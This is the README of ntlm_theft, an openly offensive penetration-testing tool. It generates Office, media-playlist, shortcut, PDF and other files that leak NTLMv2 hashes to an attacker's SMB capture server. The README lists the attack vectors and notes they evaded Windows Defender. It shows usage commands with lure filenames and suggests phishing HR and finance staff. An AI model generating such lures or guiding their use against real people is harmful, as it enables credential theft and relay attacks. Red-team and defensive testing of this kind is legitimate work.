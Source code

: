 # ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 20 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network. 

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 16 of the 20 attacks worked on a fully patched Windows 10 host.  

ntlm_theft supports the following attack types:

* Browse to Folder Containing
	* .url – via URL field
	* .url – via ICONFILE field
	* .scf – via ICONFILE field (Not Working on Latest Windows)
	* autorun.inf via OPEN field (Not Working on Latest Windows)
	* desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
	* .xml – via Microsoft Word external stylesheet
	* .xml – via Microsoft Word includepicture field
	* .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
	* .docx – via Microsoft Word includepicture field
	* .docx – via Microsoft Word external template
	* .docx – via Microsoft Word frameset webSettings
	* .xlsx - via Microsoft Excel external cell
	* .wax - via Windows Media Player playlist (Better, primary open)
	* .asx – via Windows Media Player playlist (Better, primary open)
	* .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
	* .jnlp – via Java external jar
	* .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
	* .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
	* .txt – formatted link to paste into Zoom chat


## Usecases (Why you want to run this)

ntlm_theft is primarily aimed at Penetration Testers and Red Teamers, who will use it to perform internal phishing on target company employees, or to mass test antivirus and email gateways. It may also be used for external phishing if outbound SMB access is allowed on the perimeter firewall.

I've found it useful while penetration testing to easily see what file types I have available to me, rather than spending time configuring a specific attack as would be used on red teaming engagements. You could send a .rtf or .docx file to the HR department, and a .xlsx spreadsheet doc to the finance department.

## Getting Started

These instructions will show you the requirements for and how to use ntlm_theft.

### Prerequisites

ntlm_theft requires Python3 and xlsxwriter:

```
pip3 install xlsxwriter
```

### Required Parameters

To start up the tool 4 parameters must be provided, an input format, the input file or folder and the basic running mode:

```
-g, --generate	: Choose to generate all files or a specific filetype
-s, --server 	: The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename	: The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

### Example Runs

Here is an example of what a run looks like generating all files:

```
# python3 ntlm_theft.py -g all -s 127.0.0.1 -f test
Created: test/test.scf (BROWSE)
Created: test/test-(url).url (BROWSE)
Created: test/test-(icon).url (BROWSE)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Generation Complete.
```

![Example Run](example-run.png?raw=true "Example Run")


Here is an example of what a run looks like generating only modern files:

```
# python3 ntlm_theft.py -g modern -s 127.0.0.1 -f meeting
Skipping SCF as it does not work on modern Windows
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Skipping zoom as it does not work on the latest versions
Skipping Autorun.inf as it does not work on modern Windows
Skipping desktop.ini as it does not work on modern Windows
Generation Complete.
```

Here is an example of what a run looks like generating only a xlsx file:

```
# python3 ntlm_theft.py -g xlsx -s 192.168.1.103 -f Bonus_Payment_Q4
Created: Bonus_Payment_Q4/Bonus_Payment_Q4-(externalcell).xlsx (OPEN)
Generation Complete.
```

## Authors

* **Jacob Wilkin** - *Research and Development*

## License

ntlm_theft
Created by Jacob Wilkin
Copyright (C) 2020 Jacob Wilkin
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Ired](https://ired.team/offensive-security/initial-access/t1187-forced-authentication)
* [Securify](https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html)
* [Pentestlab](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
* [deepzec](https://github.com/deepzec/Bad-Pdf/blob/master/badpdf.py)
* [rocketscientist911](https://github.com/rocketscientist911/excel-ntlmv2)
* [Osanda](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
* [Violation Industry](https://www.youtube.com/watch?v=PDpBEY1roRc)
